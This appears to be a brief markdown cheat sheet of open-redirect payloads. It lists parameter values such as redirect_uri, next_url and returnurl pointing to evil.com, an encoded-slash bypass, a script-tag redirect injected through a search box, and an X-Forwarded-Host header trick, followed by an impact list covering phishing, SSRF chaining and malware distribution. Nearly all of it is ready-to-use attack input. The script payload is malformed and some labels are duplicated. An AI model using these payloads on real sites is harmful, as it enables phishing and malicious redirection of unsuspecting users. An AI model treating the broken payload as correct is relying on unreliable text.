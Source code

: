 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...
===>>> example: site.com/.../next_url=evil.com/...
===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com


2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection


4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
